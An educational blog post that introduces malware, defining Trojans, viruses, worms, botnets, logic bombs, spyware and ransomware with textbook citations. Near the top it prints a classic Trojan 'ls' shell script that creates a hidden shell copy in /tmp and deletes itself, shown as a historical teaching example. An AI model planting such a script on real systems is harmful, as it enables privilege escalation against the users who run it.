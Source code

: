 ```yaml
---
title: Gentle Introduction to Malicious Software or Malware
date: 2020-01-15 00:00:00 Z
categories:
- security
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: true
      share: true
      related: true
---
```


#### Definition 
-----------------------

> Malicious logic, more commonly called malware, is a set of instructions that cause a site’s security policy to be violated.[^fn1]

Malware is the swiss-army knife of cyber criminals and any other adversary to your corporation or organization[^fn2]. In earlier days, when UNIX systems were popular, the hackers found a new way to get access to victims machine with a little piece of malicious code like the one below

~~~shell
#! /bin/sh 

# make a privileged, hidden copy of the shell (command interpreter) 
cp /bin/sh /tmp/.xxsh 
chmod o+s, w+x /tmp/.xxsh

# do what the victim thinks is *all* you’re doing 
ls $* 

# delete this file 
rm ./ls
~~~


When this file is saved with the file name 'ls' is victim's home directory, and if the root user in victim's machine executes 'ls' command, above script will run and it creates a copy of the shell in /tmp/ directory with the root previleges. Above script also deletes the file and thus leaves no trail. Now the copy of shell can be used for all non-sensible things by the hacker.

But, this trick won't work anymore as the current directory '.' is not in the system path variable by default in any latest LINUX systems. But nothing stops you from adding '.' into the $PATH variable.

-----------------------
#### Types of malwares and its definitions
-----------------------

Further in this post, let's see the various types of malware and its formal definitions

   1.   A **Trojan horse** is a program with an overt (documented or known) purpose and a covert (undocumented or unexpected) purpose. A Trojan horse is a program with an overt (documented or known) purpose and a covert (undocumented or unexpected) purpose. A *rootkit* is a pernicious trojan hourse. It hides in the system and can avoid detection. A trojan hourse can be a *propagating* one as well.

   2.   A **computer virus** is a program that inserts (a possibly transformed version of) itself into one or more files and then performs some (possibly null) action. 
        -   A boot sector infector is a virus that inserts itself into the boot sector of a disk. Eg. Brain Virus of IBM Machine. 
        -   An executable infector is a virus that infects executable programs. Eg. Jerusalem Virus (Also called Israeli Virus).
        -   A multipartite virus is one that can infect both boot sectors and applications.
        -    A macro virus is a virus composed of a sequence of instructions that is interpreted, rather than executed directly. Eg. Melissa Virus of MSWord97/98 docs.
        -    A terminate and stay resident (TSR) virus is one that stays active (resident) in memory after the application, bootstrapping, or macro interpretation has terminated.
        -    Stealth viruses are viruses that conceal the infection of files.
        -   An encrypted virus is a virus that encrypts all of the virus except the cryptographic key and a decryption key.
        -   A metamorphic virus is a virus that changes its internal structure but performs the same actions each time it is executed. Eg. Zmist(W95)
        -   
   3.   A **computer worm** is a program that copies itself from one computer to another. Eg. Stuxnet worm, the Internet Worm, etc.
   
   4.   A **bot** is malware that carries out some action in coordination with other bots. The attacker, called a botmaster, controls the bots from one or more systems called command and control (C&C) servers or motherships. They communicate over paths called C&C channels. A collection of bots is a **botnet**. Eg. Torpig, GTBot, etc.
        -   Botnet developers discovered how to use this to increase the difficulty of
        locating bots, especially those used as botmasters. The idea is to associate a list of IP addresses with a particular host name. The binding between the host name and the IP address changes rapidly, with the next IP address selected from that list. These botnets are called IP flux botnets

   5.   A **bacterium** or a **rabbit** is a program that absorbs all of some class of resource.
   
   6.   A **logic bomb** is a program that performs an action that violates the security policy when some external event occurs.
   
   7.   **Adware** is a Trojan horse that gathers information for marketing purposes and displays advertisements, often based on the gathered information.
   
   8.   **Spyware** is a Trojan horse that records information about the use of a computer, usually resulting in confidential information such as keystrokes, passwords, credit card numbers, and visits to web sites. The information may be transmitted to a third party, stored for later transmission, or stored for retrieval by a third party. Eg. Pegasus
   
   9.   **Ransomware** is malware that inhibits the use of resources until a ransom, usually monetary, is paid. Eg. Wannacry, CryptoLocker, etc.

Today's malware is combination of various types of above mentioned ones and detecting whether a program is malware or not is **undecidable** as per Rice's Theorem.[^fn3]. And the sheer number of various malware made it impractical to design a rule based system to classify them as malware as best as possible. Solution to this mess is Machine Learning based detection methods. However, the best method also doesn't guarantee that perfect classification. The aim is to reduce the false positives and false negetives in a machine learning based model for classification of malware. 

More work related to ML based malware analysis will be discussed in future blogs.

-----------------------
#### References:
-----------------------
[^fn1]: Computer Security - Arts and Science, *Matt Bishop* (Ch23 of 2nd Edition)
[^fn2]: https://cuckoosandbox.org
[^fn3]: https://en.wikipedia.org/wiki/Rice%27s_theorem
<!--stackedit_data:
eyJoaXN0b3J5IjpbMzA0MDczNTU0XX0=
-->